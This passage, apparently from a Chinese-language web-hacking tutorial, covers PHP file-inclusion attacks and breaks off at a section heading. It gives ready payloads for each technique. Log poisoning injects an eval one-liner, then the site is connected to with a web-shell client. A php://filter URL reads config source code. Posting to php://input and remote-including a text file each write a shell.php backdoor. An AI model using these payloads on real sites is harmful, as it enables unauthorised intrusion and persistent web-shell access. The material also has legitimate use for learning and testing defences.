 

## 0x09 包含日志

把日志文件包含进来，主要是想找到日志的路径。

- 文件包含漏洞读取apache配置文件
  - index.php?page=/etc/init.d/httpd
  - index.php?page=/etc/httpd/conf/httpd.conf
- 默认位置：/var/log/httpd/access_log

找到日志路径之后，可以利用其记录访问链接信息，我们构造一个访问请求就会被记录下来，那就可以构造一个带有webshell的链接，然后文件包含日志来getshell。

日志会记录客户端请求及服务器响应的信息，访问http://www.com/\<?php phpinfo(); ?\>时，\<?php phpinfo();?\>也会被记录在日志里，也可以插入到User-Agent中。注意可以用Burpsuite发送来绕过URL编码。

示例：制作错误，写入一句话
```
http://127.0.0.1/ekucms/index.php?s=my/show/id/{~eval($_POST[x])}
```

菜刀连接即可。



## 0x0a 读PHP文件

直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
```
?page=php://filter/read=convert.base64-encode/resource=config.php
```

访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码。



## 0x0b PHP封装协议

当allow_url_include=On时，若执行http://www.com/index.php?page=php://input ，并且提交数据
```
<?php fputs(fopen("shell.php","w"),"<?php eval($_POST[x])?>")?>
```

结果将在index.php所在路径下生成一句话文件shell.php



## 0x0c 远程包含

远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的。

若在a.txt写入
```
<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[x]);?>")?>
```



## 0x0d php输入输出流
